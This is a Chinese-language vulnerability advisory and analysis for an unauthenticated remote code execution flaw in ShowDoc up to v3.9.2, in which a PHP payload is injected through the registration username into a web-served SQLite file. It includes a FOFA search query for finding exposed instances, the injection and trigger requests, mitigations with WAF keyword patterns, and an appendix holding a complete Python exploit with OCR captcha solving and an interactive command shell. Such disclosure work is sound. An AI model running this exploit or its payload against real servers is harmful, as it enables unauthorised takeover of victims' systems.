

# 漏洞简介

ShowDoc 是 star7th 开发的开源在线 API 文档与文档协作工具，基于 PHP（Nginx + PHP-FPM）实现，提供注册/登录与文档管理能力，默认使用 SQLite 数据库，支持 Docker 一键部署，常用于企业内部 API 文档、数据字典、说明文档的沉淀与共享。

漏洞位于注册接口 registerByVerify（`/server/index.php?s=/Api/User/registerByVerify`）。接口对 username 参数仅做 `trim()` 处理，无字符白名单校验，恶意用户名作为普通字符串写入 SQLite 数据库文件 `Sqlite/showdoc.db.php`。该文件位于 Web 根目录且以 `.php` 结尾，攻击者直接请求该文件时，PHP-FPM 将其作为 PHP 脚本解析，执行 username 中注入的代码，实现未授权远程代码执行。攻击者利用该漏洞可执行任意系统命令、落地持久化 webshell，完全控制受影响系统。

漏洞编号：XVE-2026-54414（微步）、QVD-2026-61708（奇安信）。

利用条件：注册功能开启（默认开启），目标使用默认 SQLite 部署。全程无需任何认证。

# 影响版本

- 影响版本：ShowDoc <= v3.9.2
- 修复版本：v3.9.3（官方已发布，见 star7th/showdoc Release）

# fofa语法

```
app="ShowDoc"
```


# 漏洞分析

## 攻击链总览



## 注入点

`registerByVerify()`（server/app/Api/Controller/UserController.php）：

```php
$username = trim($this->getParam($request, 'username', ''));
```

过滤逻辑为 `trim()`，无字符类型校验。恶意用户名进入 INSERT 语句，存储类型 TEXT。v3.9.3 补充格式正则 `^[a-zA-Z0-9_\-\x{4e00}-\x{9fa5}]{2,30}$`。

## 落地点

默认存储 SQLite。数据库文件为 `Sqlite/showdoc.db.php`（server/app/Common/Database/Database.php，DB_NAME 默认值）。`.php` 后缀的设计意图是阻止静态下载，副作用是库内字符串会进入 PHP 词法扫描。

## 触发点

`GET /Sqlite/showdoc.db.php` → nginx 匹配 `.php` 后缀 → php-fpm 解析。

PHP 词法规则：`<?php` 标签前的内容属内联 HTML，输出而不编译；标签内内容进入编译，parse error 属编译期致命错误，文件无执行阶段。SQLite 文件头 `SQLite format 3\x00` 与页二进制位于标签外，仅输出二进制乱码，不产生语法影响。

## payload 编译顺序（利用前提）

利用前提是 payload 的编译顺序先于文件内一切 parse error 源。

模板库初始布局：sqlite_master 的 offset 929 处存在防下载表名 `<?php `（name/tbl_name/CREATE SQL 三处），表名标签内字节引发 parse error；user 表数据页物理位置靠后，注入数据的编译顺序靠后。模板库布局下直接注册无法利用。

首个 HTTP API 请求重排库布局：

1. server/app/Common/bootstrap.php 中 `PHP_SAPI !== 'cli'` 时执行 `Upgrade::checkAndUpgrade()`；
2. `db_version_num(0) < CURRENT_VERSION(32)` → 执行 `updateSqlite()`；
3. DDL：26 个 CREATE TABLE + 10 余处 ALTER TABLE ADD COLUMN（user 表补 salt 列）；
4. 防下载表名 cell 迁移至文件后部（offset 7073）；
5. user 表 rootpage=4，新注册行写入 page 4 尾部 cell 区（offset 3937）。

布局重排后，注入 payload 成为文件内第一个 `<?php` 标签，编译顺序先于防下载表名，注入成立。实例被任意用户正常访问一次（升级已执行）后即可利用。

Docker 容器首启时 `docker.run.sh` 以 CLI 模式执行 `php index.php /api/update/dockerUpdateCode`，`PHP_SAPI === 'cli'`，升级流程被跳过，防下载表名保持在 offset 931；install 向导不触及库结构，`createCaptcha` 等 API 请求为首个触发点。任意请求触发一次升级后布局即满足利用条件。

## `__halt_compiler()` 的作用

`__halt_compiler()` 为编译器保留字，调用点终止本文件编译，其后字节退出词法分析。效果：offset 7073 的防下载表名与全部后续二进制退出编译范围，parse error 源清零；二进制内随机 `<?` 字节的语法影响清零。

payload 两段分工：

- `system($_REQUEST["cmd"])`：执行命令；
- `__halt_compiler()`：终止编译，隔离后续字节。

缺失 `__halt_compiler()` 时编译失败于 offset 7073，文件无执行阶段，RCE 链断。

## 修复版本行为

v3.9.3 对 `registerByVerify()` 与 `login()` 的 username 参数增加格式正则。注入 payload 的注册响应：

```
{"error_code":10101,"error_message":"用户名只允许字母、数字、下划线、横线、中文，2-30个字符"}
```

# 漏洞复现

前置条件：注册功能开启；默认 SQLite 部署；目标数据库已完成一次升级（普通部署实例日常访问即可满足；Docker 首启实例需先被任意请求访问）。

复现流程：

1. 触发数据库升级：发送任意 API 请求（如验证码接口），使库布局满足利用条件；
2. 注册接口提交注入用户名：

```
POST /server/index.php?s=/Api/User/registerByVerify
username=<?php system($_REQUEST["cmd"]);__halt_compiler();<随机后缀>
```

3. 请求数据库文件触发执行：

```
GET /Sqlite/showdoc.db.php?cmd=id
```

响应包含 SQLite 二进制（内联 HTML 输出）与命令执行结果。payload 尾部随机后缀位于 `__halt_compiler();` 之后，编译器忽略，保证用户名唯一，支持重复利用。

注册接口校验验证码。验证码为 Gregwar\Captcha，4 位，字符集 `ABCDEFGHJKLMNPQRSTUVWXYZ23456789`（不含 0/O/1/I），校验忽略大小写；每次重试生成新 captcha_id，接口无频率限制。

showdoc-registerbyverify-rce 提供 Python 利用脚本 exploit.py（EXP代码参考附录部分），依赖 Python 3 标准库，`--ocr` 模式需安装 ddddocr：

```bash
python3 exploit.py --url http://<target>:<port> --ocr --cmd id
```

验证码识别双模型输出一致且符合字符集/长度约束才提交；`--db` 参数在目标库文件本机可达时直接读取验证码明文；`-i` 进入交互式命令执行。


# 缓解措施

1. 升级至 v3.9.3+；
2. 关闭注册：options 表 register_open 置为 0；
3. Web 服务器层禁止访问 /Sqlite/ 目录（Nginx 增加 deny 规则）。单独执行即可切断触发路径；
4. SQLite 数据库文件迁移出 Web 根目录（如 /data/），或在文件头部增加 `<?php die(); ?>` 防护；有条件建议切换 MySQL；
5. WAF/防护设备拦截 `POST /server/index.php?s=/Api/User/registerByVerify` 中 username 参数携带 `<?`、`__halt_compiler`、`system(` 等特征的请求；
6. 已注入实例：升级不清除已入库恶意行，需执行 `DELETE FROM user WHERE username LIKE '<?php%';` 并确认触发路径已关闭。

# 参考

- 微步情报局漏洞通告（XVE-2026-54414）：https://x.threatbook.com/v5/vul/XVE-2026-54414
- 奇安信 CERT 通告（QVD-2026-61708）
- ShowDoc 官方仓库：https://github.com/star7th/showdoc
- ShowDoc v3.9.3 Release：https://github.com/star7th/showdoc/releases

# 附录

showdoc-registerbyverify-rce/blob/main/exploit.py

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
ShowDoc <= v3.9.2 registerByVerify 未授权 PHP 代码注入漏洞 (XVE-2026-54414) 本地复现脚本

漏洞链:
  1. POST /server/index.php?s=/api/user/registerByVerify 的 username 参数仅做 trim,
     未做任何字符过滤 (v3.9.3 才补充用户名格式正则校验)
  2. 恶意用户名作为普通字符串写入 SQLite 数据库文件 Sqlite/showdoc.db.php
     (该文件以 .php 结尾, 会被 Web 服务器交给 PHP 解析)
  3. GET /Sqlite/showdoc.db.php?cmd=xxx 直接触发文件中存储的恶意 PHP 代码

payload 说明:
  <?php system($_REQUEST["cmd"]); __halt_compiler();
  - SQLite 文件头与前面的页数据在 PHP 标签之外, 仅被当作内联 HTML 输出
  - payload 是部署后文件中的第一个 <?php 标签, 进入 PHP 模式即执行 system()
  - __halt_compiler() 立即终止编译, 其后的数据库二进制 (含可能引发
    parse error 的防下载表名) 永远不会被编译到, 保证 payload 稳定执行
  - 尾部追加随机串 (位于 __halt_compiler 之后, 会被编译器忽略),
    使每次运行用户名唯一, 便于重复复现

验证码获取方式:
  --captcha ABCD   手动提供 (脚本可先下载验证码图片供人工识别)
  --ocr            ddddocr 双模型集成打码 + 失败自动换码重试 (需 pip install ddddocr)
  --db PATH        从本地挂载的 SQLite 库文件直接读取明文 (本地复现场景)
  交互输入         自动下载验证码图片后提示输入

仅用于本地授权安全研究/教学, 请勿用于未授权测试。
"""

import argparse
import json
import random
import re
import sqlite3
import string
import sys
import tempfile
import urllib.parse
import urllib.request

PAYLOAD = '<?php system($_REQUEST["cmd"]); __halt_compiler();'

REGISTER_PATH = "/server/index.php?s=/api/user/registerByVerify"
CAPTCHA_PATH = "/server/index.php?s=/api/common/createCaptcha"
CAPTCHA_IMG_PATH = "/server/index.php?s=/api/common/showCaptcha&captcha_id={}"
VERSION_PATH = "/server/index.php?s=/api/common/version"
TRIGGER_PATH = "/Sqlite/showdoc.db.php"


def http_post(url, data, timeout=30):
    body = urllib.parse.urlencode(data).encode()
    req = urllib.request.Request(
        url, data=body,
        headers={"Content-Type": "application/x-www-form-urlencoded",
                 "User-Agent": "Mozilla/5.0 (local-poc)"})
    with urllib.request.urlopen(req, timeout=timeout) as resp:
        return resp.read()


def http_get(url, timeout=30):
    req = urllib.request.Request(url, headers={"User-Agent": "Mozilla/5.0 (local-poc)"})
    with urllib.request.urlopen(req, timeout=timeout) as resp:
        return resp.read()


def info(msg):
    print(f"[*] {msg}")


def ok(msg):
    print(f"[+] {msg}")


def fail(msg):
    print(f"[-] {msg}")


def check_version(base):
    """确认目标版本, 受影响版本 <= 3.9.2"""
    try:
        data = json.loads(http_get(base + VERSION_PATH))
        version = data.get("data", {}).get("version", "")
        ok(f"目标版本: {version}")
        if version > "v3.9.2":
            fail(f"{version} 已修复该漏洞 (v3.9.3 起对 username 做格式校验), 复现可能失败")
        return version
    except Exception as e:
        fail(f"版本探测失败: {e}")
        return None


def solve_captcha(base, args):
    """获取验证码明文: 手动 > 本地库读取 > 看图输入"""
    data = json.loads(http_post(base + CAPTCHA_PATH, {}))
    captcha_id = data["data"]["captcha_id"]
    info(f"captcha_id = {captcha_id}")

    if args.captcha:
        return captcha_id, args.captcha.strip()

    if args.db:
        conn = sqlite3.connect(f"file:{args.db}?mode=ro", uri=True)
        try:
            row = conn.execute(
                "SELECT captcha FROM captcha WHERE captcha_id=? AND expire_time>strftime('%s','now')",
                (captcha_id,)).fetchone()
        finally:
            conn.close()
        if row:
            ok(f"从本地 SQLite 读出验证码: {row[0]}")
            return captcha_id, row[0]
        fail("本地库中未读到该验证码, 回退到看图输入")

    img = http_get(base + CAPTCHA_IMG_PATH.format(captcha_id))
    path = tempfile.gettempdir() + "/showdoc_captcha.png"
    with open(path, "wb") as f:
        f.write(img)
    info(f"验证码图片已保存: {path} (macOS 可执行 open 命令查看)")
    code = input("    请输入图片中的验证码: ").strip()
    return captcha_id, code


def register(base, captcha_id, captcha):
    """注册携带恶意代码的用户名, 返回是否成功"""
    username = PAYLOAD + "".join(random.choices(string.ascii_lowercase + string.digits, k=8))
    password = "Poc12345x!"
    data = {
        "username": username,
        "password": password,
        "confirm_password": password,
        "captcha_id": captcha_id,
        "captcha": captcha,
    }
    resp = json.loads(http_post(base + REGISTER_PATH, data))
    if resp.get("error_code") == 0:
        ok(f"恶意用户注册成功 (uid={resp['data']['uid']}), payload 已写入 Sqlite/showdoc.db.php")
        return True
    fail(f"注册失败: {resp}")
    if resp.get("error_code") == 10206:
        fail("验证码不正确: 若用 --db 方式, 请确认容器卷路径正确且库文件为最新")
    return False


CAPTCHA_CHARSET = set("ABCDEFGHJKLMNPQRSTUVWXYZ23456789")


def try_ocr_register(base, max_register=8, max_samples=24):
    """ddddocr 新旧双模型集成打码, 输出一致才提交; 验证码失败换新码重试。

    实测 (Gregwar 4 位验证码, 40 样本): 单模型过滤后 ~50%, 双模型集成 70%,
    注册重试 <= 8 次成功率 ~100%, 期望采样 ~11 次, 全程 5-10 秒。
    """
    try:
        import io

        import ddddocr
        from PIL import Image
    except ImportError:
        fail("自动打码缺少依赖: pip install ddddocr (或改用 --captcha / --db 模式)")
        return False

    ocr_new = ddddocr.DdddOcr(show_ad=False)
    ocr_old = ddddocr.DdddOcr(show_ad=False, old=True)

    def predict(img_bytes, ocr):
        im = Image.open(io.BytesIO(img_bytes))
        im = im.resize((im.width * 2, im.height * 2)).convert("L")
        buf = io.BytesIO()
        im.save(buf, "PNG")
        return ocr.classification(buf.getvalue()).upper().strip()

    def valid(p):
        return len(p) == 4 and set(p) <= CAPTCHA_CHARSET

    samples = 0
    for attempt in range(1, max_register + 1):
        while samples < max_samples:
            samples += 1
            data = json.loads(http_post(base + CAPTCHA_PATH, {}))
            captcha_id = data["data"]["captcha_id"]
            img = http_get(base + CAPTCHA_IMG_PATH.format(captcha_id))
            p_new, p_old = predict(img, ocr_new), predict(img, ocr_old)
            if not (valid(p_new) and p_new == p_old):
                continue
            info(f"第 {attempt} 次注册: captcha_id={captcha_id}, 双模型识别={p_new} (采样 {samples} 次)")
            if register(base, captcha_id, p_new):
                return True
            break
        else:
            break
    fail("自动打码注册失败: 可重跑脚本, 或改用 --captcha / --db 模式")
    return False


def execute(base, cmd):
    """触发存储的恶意代码并提取命令输出"""
    m1 = "".join(random.choices("0123456789abcdef", k=12))
    m2 = "".join(random.choices("0123456789abcdef", k=12))
    wrapped = f"echo {m1}; {cmd}; echo {m2}"
    url = base + TRIGGER_PATH + "?cmd=" + urllib.parse.quote(wrapped, safe="")
    resp = http_get(url)
    match = re.search(m1.encode() + rb"\r?\n(.*?)" + m2.encode(), resp, re.S)
    if match:
        return match.group(1).decode("utf-8", "replace")
    return None


def main():
    banner = """
==============================================================
  ShowDoc <= 3.9.2 registerByVerify PHP 代码注入 RCE 复现
  漏洞编号 XVE-2026-54414 | 仅限本地授权安全研究使用
==============================================================
"""
    print(banner)
    parser = argparse.ArgumentParser(description="ShowDoc registerByVerify RCE 本地复现脚本")
    parser.add_argument("--url", required=True, help="目标根 URL, 如 http://target:4999")
    parser.add_argument("--db", help="本地挂载的 SQLite 库文件路径 (用于自动读取验证码明文)")
    parser.add_argument("--captcha", help="手动指定验证码 (配合图片人工识别)")
    parser.add_argument("--ocr", action="store_true",
                        help="ddddocr 双模型自动打码, 失败自动换码重试 (需 pip install ddddocr)")
    parser.add_argument("--cmd", default="id", help="要执行的命令 (默认 id)")
    parser.add_argument("-i", "--interactive", action="store_true", help="交互式命令执行模式")
    args = parser.parse_args()

    base = args.url.rstrip("/")

    check_version(base)

    if args.ocr:
        if not try_ocr_register(base):
            sys.exit(1)
    else:
        captcha_id, captcha = solve_captcha(base, args)
        if not register(base, captcha_id, captcha):
            sys.exit(1)

    info(f"触发: GET {TRIGGER_PATH}?cmd=...")
    out = execute(base, args.cmd)
    if out is None:
        fail("未获取到命令输出, 触发失败")
        sys.exit(1)
    ok("命令执行成功, `id` 结果:\n" + out.rstrip())

    if args.interactive:
        print()
        print("[*] 进入交互模式, 输入 exit 退出")
        while True:
            try:
                cmd = input("cmd> ").strip()
            except (EOFError, KeyboardInterrupt):
                break
            if not cmd or cmd.lower() in ("exit", "quit"):
                break
            out = execute(base, cmd)
            print(out if out else "(无输出/执行失败)")


if __name__ == "__main__":
    main()
```

----

